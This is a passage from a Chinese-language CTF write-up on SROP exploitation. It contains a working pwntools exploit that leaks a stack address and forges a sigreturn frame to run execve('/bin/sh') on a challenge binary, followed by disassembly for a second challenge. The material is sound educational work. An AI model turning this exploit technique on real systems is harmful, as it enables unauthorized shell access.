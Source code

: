 ​	下面是题解:

```python
from pwn import *

gadget = 0x4004DA
syscall = 0x400517
vuln = 0x4004ED
context(arch="amd64",os="linux",log_level="debug")
r = process("./pwn")
gdb.attach(r)
pause()

pay = b'a'*0x10 + p64(vuln) #为什么是0x10个填充字节呢?因为这个函数结尾时没有leave;这一操作,所以缓冲区的低地址就相当于返回地址了(迫真)
r.send(pay)					#至于为什么这个函数没有leave...copilot的说法是编译器拿到函数以后看了一圈,然后说:"这个,不需要了."就把leave优化掉了.
stack = u64(r.recv()[-16:-8])
print(hex(stack))

stack=stack-0x118			#这个0x118是怎么得出来的呢?我是在程序读入/bin/sh以后去翻内存,然后算出来偏移量为0x118.不过如果我事先不知道偏移量为0x118的话,这么做应该会很困难.
payload=b'/bin/sh\x00'+b'a'*8+p64(gadget)+p64(syscall)
payload+=p64(0)*13+p64(stack)+p64(0)*4+p64(59)+p64(0)*2+p64(syscall)+p64(0)+p64(0x33)+p64(0)*7#这些字符串的长度总和也为0x118,不过我在看别人的writeup的时候注意到有些师傅因为本地环境的问题导致程序中的实际偏移为其他数值.所以还是需要调试来确定.
r.send(payload)#更新:偏移和字符串长度一样应该是巧合
r.interactive()
```

​	不得不说笔记平台的配色方案是真的不友好.注释在低亮度下不是很明显,而字符串则更是一场灾难...如果我这种把讲解写在注释里的方案实在难以阅读的话,以后我会把这些东西写在代码框外面.

##### 2:rootersctf_2019_srop

​	看完了例题,让我们来实战一下

​	题目代码:

```assembly
.text:0000000000401000 ; ===========================================================================
.text:0000000000401000
.text:0000000000401000 ; Segment type: Pure code
.text:0000000000401000 ; Segment permissions: Read/Execute
.text:0000000000401000 _text           segment para public 'CODE' use64
.text:0000000000401000                 assume cs:_text
.text:0000000000401000                 ;org 401000h
.text:0000000000401000                 assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.text:0000000000401000
.text:0000000000401000 ; =============== S U B R O U T I N E =======================================
.text:0000000000401000
.text:0000000000401000 ; Attributes: bp-based frame
.text:0000000000401000
.text:0000000000401000 ; signed __int64 sub_401000()
.text:0000000000401000 sub_401000      proc near               ; CODE XREF: start↓p
.text:0000000000401000                                         ; DATA XREF: LOAD:0000000000400088↑o
.text:0000000000401000
.text:0000000000401000 buf             = byte ptr -80h
.text:0000000000401000
.text:0000000000401000                 push    rbp
.text:0000000000401001                 mov     rbp, rsp
.text:0000000000401004                 sub     rsp, 40h		   ;我猜不会有人发现我在这写了段话
.text:0000000000401008                 mov     eax, 1
.text:000000000040100D                 mov     edi, 1          ; fd
.text:0000000000401012                 lea     rsi, buf        ; "Hey, can i get some feedback for the CT"...
.text:000000000040101A                 mov     edx, 2Ah ; '*'  ; count
.text:000000000040101F                 syscall                 ; LINUX - sys_write
```

[^*]: 说到素数,前几天我在写python实验作业,完成一个输出区间内所有素数的程序,上了埃氏筛没过.于是我换成线性筛,结果还是过不了.本来我都打算换c++打表来优化了,结果老师告诉我数据错了... 另外顺便一提,python的题目一般不会有时间复杂度限制
